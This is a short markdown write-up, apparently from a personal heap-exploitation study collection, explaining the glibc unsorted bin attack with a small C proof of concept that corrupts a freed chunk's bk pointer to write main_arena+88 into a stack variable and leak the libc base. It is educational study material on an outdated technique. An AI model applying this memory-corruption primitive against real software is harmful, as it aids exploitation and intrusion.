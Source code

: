 # Unsorted_bin attack
> LongChampion, 19/03/2020

Initially, I don't think this is an attack, this is only the trick to overwrite one address in memory with a large value. But after a bit research, I see that the value used to overwrite is very interesting: this is a address of `main_arena + 88`. Why this address is interesting? If we overwrite this value to somewhere then read it, we can leak **GLIBC** base address.
```c
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    long long Value = 0x1234567890abcdef;

    void *victim = malloc(0x100 - 8);
    void *pivot = malloc(0x100 - 8);

    free(victim);
    struct Chunk *header = (struct Chunk *) (victim - 0x10);
    header->bk = (struct Chunk *) (&Value - 2);

    void *STACK = malloc(0x100 - 8);
}
```
Look at my `unsorted_bin_into_stack.md`:
> 8 bytes at address `Fake.bk + 0x10` will be overwrite

This is how this trick work, set `header->bk` to offset 0x10 before variable `Value`, then call `malloc` with exact request size, `Value` will be overwrite to `main_arena+88`. End of trick!

## Note
- At this time of writing, this trick is no longer work with latest version of **GLIBC** (my **GLIBC** version is 2.31)
- Another way to use this trick is to overwrite the `global_max_fast` in **GLIBC** for further fastbin attack.
- `Value` is define as `long long`, so `&Value - 2` will return the address at offset 0x10 before `Value`, don't be confuse with `&Value - 0x10`.
